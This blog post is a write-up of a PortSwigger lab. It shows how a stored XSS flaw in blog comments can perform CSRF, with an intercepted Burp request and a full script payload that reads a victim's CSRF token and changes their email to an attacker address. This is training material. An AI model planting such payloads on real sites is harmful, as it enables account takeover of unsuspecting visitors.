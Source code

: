 ```yaml
---
layout: post
title:  "Exploiting XSS to perform CSRF"
date:   2024-09-29 09:39:54 +0530
---
```


## Intro 

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`⁠

  

## Solution

As they mentioned that email change fnctionality is some interesting piece of vulnerability to check the lab 

  

![]({{ site.baseurl }}/assets/images/image.png)  

  

Change the email, Intercept the request in burpsuite and the request looks like this

  

```bash
POST /my-account/change-email HTTP/2
Host: 0a470088045c3a718c88df1b000300bd.web-security-academy.net
Cookie: session=LDVKjeWBrMHGqQ1zoptKz3E6qTFhr3m3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a470088045c3a718c88df1b000300bd.web-security-academy.net
Dnt: 1
Referer: https://0a470088045c3a718c88df1b000300bd.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers

email=test%40gmail.com&csrf=O7i3U2JlBGsRYmmMOzdTDO0vBFGzImcQ
```

  

Now let’s remove the CSRF parameter along with the value and found that request won’t pass out 

  

  

![]({{ site.baseurl }}/assets/images/image%202.png)  

  

CSRF Parameter is properly being validated and the token is being pulled off from the `view-source`  page as a hidden parameter 

  

![]({{ site.baseurl }}/assets/images/image%203.png)  

  

Since the attribute name is `csrf`  and we can able to pull off csrf token with the following snippet `document.getElementsByName('csrf')[0].value`⁠

  

![]({{ site.baseurl }}/assets/images/image%204.png)  

  

And here is the full exploit and where we can plant inside some kind of blog post as comments and wait for sometime for the lab to solve 

  

```html
<script>
    window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value
    var data = new FormData();
    data.append('csrf', token);
    data.append('email', 'M4rdukwasH3re@EvilEmail.com');
    fetch('/my-account/change-email', {
        method: 'POST',
         mode: 'no-cors',
        body: data
    });
    });
</script>
```

  

Once after posting the comment, our lab is solved because the victim’s email changed

  

![]({{ site.baseurl }}/assets/images/image%205.png)